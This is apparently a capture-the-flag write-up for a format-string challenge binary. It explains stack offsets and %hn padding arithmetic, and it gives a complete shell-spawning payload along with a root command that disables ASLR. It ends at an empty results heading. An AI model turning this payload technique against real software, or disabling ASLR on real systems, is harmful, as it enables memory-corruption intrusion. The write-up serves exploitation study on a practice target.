



# ELF x86 - Format string bug basic 2

## Vulnerability summary

The program contains a user-controlled format string:

```c
snprintf(fmt, sizeof(fmt), argv[1]);
```

`argv[1]` is used as the format string with **no arguments** — you can use `%x`, `%p`, `%n`, `%hn`, `%hhn`, etc., to *read* stack values and to *write* arbitrary bytes to arbitrary locations using `%n` family format specifiers. The goal is to change:

```c
int check = 0x04030201;
```

to `0xDEADBEEF` so that the program executes `system("/bin/bash")`.

**Important test / info prints**:

```
printf("check at 0x%x\n", &check);
```

Run `./chall dummy` to get the actual printed address of `check`. You will use that address in the payload.

**Make testing stable**: disable ASLR while testing:

```bash
# run as root
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```




now the value will be same


---


## offset

we can find the offfset like 



here we can see that the buffer is at `9`th offset


## using `%n`

lets say that the address leak is `0xffffc818` so now we can write at this address by using this approch

```bash
0xffffc818 + (3735928559 - 4 )x + %9$n 
```

we have to write `0xdeadbeef` which is `3735928559` in decimal but we have printed 4 bytes (`0xdeadbeef`) before it so we also have to substract it 

`%x` prints an integer argument in hexadecimal. When you write %1234x, 1234 is treated as a field width, so printf will print the next integer argument right-justified in a field of width 1234 — that means it will output many padding characters (usually spaces) before the printed hex text. That produces the large character count exploited by %n/%hn.


we could also have used `%c` it also can be used here

where 9 is the offset and `%n` tells printf to write the number of bytes already printed into the memory location pointed to by the corresponding argument. 


## Why `0xffffc818 + (3735928559 - 4)x + %9$n` is impractical

* `3735928559` decimal = `0xDEADBEEF`. The expression attempts to print `3735928559 - 4 = 3735928555` characters before issuing a `%n`.
* Printing ~3.7 billion characters in a format string is **impractical** (very slow, may be truncated or prohibited by libc limits, and may crash).
* `%n` writes the full 32/64-bit value of the printed character count. On many systems you can’t rely on being able to produce that exact huge count.

**Safer alternatives**:

* Use two `%hn` writes to write the low and high 16 bits (typical and efficient).
* Or use four `%hhn` byte writes (one byte at a time) to avoid huge paddings.
* Or use `%n` combined with integer wrapping (but that still requires huge output or clever wraps).

Conclusion: do **not** use a single huge `%n`. Use `%hn` or `%hhn`.

---

## Two-`%hn` approach (recommended) — theory

To write `0xDEADBEEF` into a 32-bit `int` at address `addr`:

* split into 16-bit halves:
  `low  = 0xBEEF` (48879 decimal)
  `high = 0xDEAD` (57005 decimal)

* Place two little-endian addresses at the start of `argv[1]`:

  ```bash
  [addr (4 bytes little-endian)] [addr+2 (4 bytes little-endian)] [format-string...]
  ```

  The first `%hn` will write the current printed count into `addr` (low 16 bits), the second `%hn` will write into `addr+2` (high 16 bits).

* Because the addresses themselves already contribute bytes to the printed count, subtract those bytes when computing the first padding.


### padding math

If you put 2 addresses (8 bytes) at the start:

* initial_len = 8
* pad1 = (low - initial_len) mod 65536
  (e.g. `48879 - 8 = 48871`)
* After first write the printed count ≡ `low` (48879). To reach `high` (57005), pad2 = `(high - low) mod 65536`
  (e.g. `57005 - 48879 = 8126`)

So the format piece is:
`%48871x%9$hn%8126x%10$hn`


---


## Worked example 

You gave the expression:

```
0xffffc7d8 + 0xffffc7da + (48879 - 8)x + %9$hn + (57005 - 48879)x + %10$hn
```

That corresponds to:

* addr = `0xffffc7d8` (first address)
* addr+2 = `0xffffc7da` (second address)
* initial_len = 8 (two 4-byte addresses)
* pad1 = `48879 - 8 = 48871`
* pad2 = `57005 - 48879 = 8126`
* parameter indices used = `%9$` and `%10$` (these are examples — make sure they match your probe results)

### using python

```bash
./chall "$(python3 -c 'import sys; sys.stdout.buffer.write(b"\xd8\xc7\xff\xff\xda\xc7\xff\xff" + b"%48871x%9$hn%8126x%10$hn")')"
```

Explanation:

* `b"\xd8\xc7\xff\xff"` is `struct.pack("<I", 0xffffc7d8)`
* `b"\xda\xc7\xff\xff"` is `struct.pack("<I", 0xffffc7da)`
* `b"%48871x%9$hn%8126x%10$hn"` is the format string doing first and second `%hn`.

If `9`/`10` are wrong for your binary, change them.

---

## result:

